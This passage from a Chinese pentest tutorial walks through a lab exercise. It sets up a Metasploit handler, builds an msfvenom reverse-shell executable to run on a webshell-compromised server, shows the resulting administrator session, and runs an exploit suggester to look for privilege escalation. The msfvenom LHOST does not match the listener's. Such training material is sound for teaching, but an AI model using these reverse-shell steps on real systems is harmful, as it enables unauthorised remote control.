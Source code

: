 下面以靶场为例来实践练习下，先在攻击者本地开启监听端口，以等待后门回连：

```java
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.69.1 ＃攻击者IP
LHOST => 192.168.69.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.69.1:4444
```

然后生成回连后门程序 shell.exe，上传到目标服务器（已获得 webshell 的服务器）并运行：

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.133 LPORT=443 -f exe -o shell.exe

利用成功后获得系统 shell 权限：

```java
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.69.1:4444 
[*] Sending stage (176195 bytes) to 192.168.69.143
[*] Meterpreter session 1 opened (192.168.69.1:4444 -> 192.168.69.143:32552) at 2021-01-24 20:55:13 +080
meterpreter > shell
Process 2364 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
C:\Users\Administrator\Desktop>whoami
whoami
god\administrator
C:\Users\Administrator\Desktop>exit
exit
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > background
[*] Backgrounding session 1...
```

利用 post/multi/recon/local_exploit_suggester 模块去获取系统的未修复的漏洞，同时 metasploit 还有对应利用模块的漏洞：

```java
msf5 post(windows/gather/enum_patches) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > exploit
```

![图片16.png](https://s0.lgstatic.com/i/image6/M00/03/97/Cgp9HWAfY4GAQcMKAAL5SxNj3Q4699.png)  
图 16 利用 local_exploit_suggester 获取未修复且可利用的漏洞

根据上述信息可以知道，系统上还是不少漏洞可直接利用的，你可以挑选内核漏洞去利用。

